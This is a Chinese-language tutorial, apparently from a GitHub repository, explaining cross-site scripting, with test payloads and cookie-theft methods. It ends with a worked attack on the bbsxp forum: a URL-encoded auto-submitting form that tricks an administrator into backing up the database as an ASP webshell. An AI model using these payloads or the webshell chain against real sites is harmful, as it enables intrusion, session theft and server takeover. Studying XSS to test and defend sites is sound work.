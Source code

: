 # 什么是XSS跨站脚本攻击

跨站脚本攻击（Cross-site scripting，通常简称为XSS）是一种网站应用程式的安全漏洞攻击，允许恶意使用者将程式码注入到网页上，其他使用者在观看网页时就会受到影响。这类攻击通常包含了HTML以及使用者端脚本语言。一般而言，跨站脚本攻击漏洞常见于网页允许攻击者通过输入对网页内容进行改写的地方。由于利用巧妙的注入恶意的指令码到由其他域网页的方法，攻击者可得到了更高的特权，窃取机密的网页内容、会话的cookie、以及许多其他的物件。

XSS又叫CSS(Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS属于被动式的攻击，因为其被动且不好利用，所以许多人常忽略其危害性。

XSS攻击分成两类，一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句，如:dvbbs的showerror.asp存在的跨站漏洞。另一类则是来来自外部的攻击，主要指的自己构造XSS跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。

传统的跨站利用方式一般都是攻击者先构造一个跨站网页，然后在另一空间里放一个收集cookie的页面，接着结合其它技术让用户打开跨站页面以盗取用户的cookie，以便进一步的攻击。个人认为这种方式太过于落后，对于弊端大家可能都知道，因为即便你收集到了cookie你也未必能进一步渗透进去，多数的cookie里面的密码都是经过加密的，如果想要cookie欺骗的话，同样也要受到其它的条件的限约。而本文提出的另一种思路，则从一定程度上解决上述的问题。对于个人而言，比较成熟的方法是通过跨站构造一个表单，表单的内容则为利用程序的备份功能或者加管理员等功能得到一个高权限。下面我将详细的介绍这种技术。

如果有代码的话比较好办，我们主要看代码里对用户输入的地方和变量有没有做长度和对“<”,“>”,“;”,“’”等字符是否做过滤。还有要注意的是对于标签的闭合，像测试QQ群跨站漏洞的时候，你在标题处输入：

```
<script>alert('test')</script>
```

代码是不会被执行的，因为在源代码里，有其它的标签未闭合，如少了一个`</script>`，这个时候，你只要闭合一个`</script>`，代码就会执行，如：你在标题处输入：

```
</script><script>alert('test')</script>
```

这样就可以弹出一个test 的框。

通常有一些方式可以测试网站是否有正确处理特殊字符：

* `><script>alert(document.cookie)</script>`
* `='><script>alert(document.cookie)</script>`
* `<script>alert(document.cookie)</script>`
* `<script>alert(vulnerable)</script>`
* `%3Cscript%3Ealert('XSS')%3C/script%3E`
* `<script>alert('XSS')</script>`
* `<img src="javascript:alert('XSS')">`
* `<img src="http://xxx.com/yyy.png" onerror="alert('XSS')">`
* `<div style="height:expression(alert('XSS'),1)" />`（这个仅限 IE 有效）

使用者可做一个网页，试着用JavaScript把document.cookie当成参数传过去，然后再把它记录下来，这即是cookie窃取 。

XSS攻击方法有：

* 窃取 cookie 。
* 利用 iframe 或 frame 存取管理页面或后台页面。
* 利用 XMLHttpRequest 存取管理页面或后台页面。

有的时候，当我们对于目标程序找不到可以利用的跨站点，这个时候我们可以利用可以从外部入手，利用我们要拿下的是它的论坛，论坛的安全性做的很好，但其留言板却存在跨站漏洞，这个时候我们可以在留言板里写入跨站语句，跨站语句为以表单的方式向论谈提交提升权限的语句，如上面的bbsxp加asp扩展的语句。当然我们可利用后台的备份功能直接得到一个shell。

例：先上传一个文件linzi.txt，内容如下:

```html
<body onload="javascript:document.forms[0].submit()">
<form action="http://127.0.0.1/bbsxp/admin_fso.asp?menu=bakbf" method="post">
<input value="database/bbsxp.mdb" name="yl" ><input value="database/shit.asp" name="bf" >
</body>
</html>
```

上面的代码是把论坛的数据库备份为shit.asp，留言板存在跨站点如下：`http://127.0.0.1/bbsxp/page2.asp?username=`

我们构造备份跨站语句如下：

```
http://127.0.0.1/bbsxp/page2.asp?username=%3C%62%6F%64%79%20%6F%6E%6C%6F%61%64%3D%22%6A%61%76%61%73%63%72%69%70%74%3A%64%6F%63%75
%6D%65%6E%74%2E%66%6F%72%6D%73%5B%30%5D%2E%73%75%62%6D%69%74%28%29%22%3E%3C%66%6F%72%6D%20%61
%63%74%69%6F%6E%3D%22%68%74%74%70%3A%2F%2F%31%32%37%2E%30%2E%30%2E%31%2F%62%62%73%78%70%2F%61
%64%6D%69%6E%5F%66%73%6F%2E%61%73%70%3F%6D%65%6E%75%3D%62%61%6B%62%66%22%20%6D%65%74%68%6F%64
%3D%22%70%6F%73%74%22%3E%3C%69%6E%70%75%74%20%76%61%6C%75%65%3D%22%64%61%74%61%62%61%73%65%2F
%62%62%73%78%70%2E%6D%64%62%22%20%6E%61%6D%65%3D%22%79%6C%22%20%3E%3C%69%6E%70%75%74%20%76%61
%6C%75%65%3D%22%64%61%74%61%62%61%73%65%2F%73%68%69%74%2E%61%73%70%22%20%6E%61%6D%65%3D%22%62
%66%22%20%3E%3C%2F%62%6F%64%79%3E%3C%2F%68%74%6D%6C%3E
```

或者构造跨站语句，利用iframe打开一个0大小的linzi.txt。

当管理员打开后，会自动备份得到一个shell。

从上面的实例，我们可以知道，如何欺骗管理打开是一个很重要的步骤，对于欺骗打开，除了社会工程学外，我们可以结合其它的技术，如sql injection.当我们渗透一个网站之时，主站mssql注入漏洞，权限为public,这个时候我们利用update构造跨站语句，如用 iframe打开一个上面的备份得到shell的跨站语句等，同样，我们可以在社会工程学时，利用QQ的其它跨站漏洞等等。

